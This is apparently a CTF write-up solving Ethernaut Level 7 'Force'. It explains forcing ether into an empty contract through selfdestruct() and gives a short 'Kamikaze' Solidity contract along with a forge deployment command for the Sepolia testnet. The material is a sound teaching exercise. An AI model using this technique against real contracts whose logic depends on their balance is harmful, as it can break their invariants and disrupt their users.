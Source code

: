 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/7-force.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 7 - Force</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 7 - Force](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-07-force)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Goals

<img src="../assets/requirements/7-force-requirements.webp" width="800px"/>

## The hack

In this Ethernaut level, the given contract is completely empty. So how can we send any ether to it? The trick is to use the (soon to be deprecated) `selfdestruct()`, which is one way to force send ether to a contract.

When self-destructing itself, the contract must send any remaining ether to another address. This is how we can easily solve this level. We simply need to deploy a contract that self-destructs and sends its ether to the vulnerable contract.

## Solution

Write and deploy a contract that takes the address of the vulnerable contract and calls's `selfdestruct()` on itself, forwarding its ether balance to the target.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract Kamikaze {
    constructor(address payable _target) payable {
        require(msg.value > 0, "Kamikaze need some ETH to attack");
        selfdestruct(_target);
    }
}
```

To deploy it with `forge` (you can also use the script `./script/7_Force.sol` or even [Remix](https://remix.ethereum.org/)):

```bash
forge create Kamikaze --private-key $PRIVATE_KEY --rpc-url sepolia --value 0.00001ether
```

## Takeaway

- `selfdestruct()` is a way to force send ether to a contract.
- <b>Never rely on a contract's balance to implement sensitive logic.</b>

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
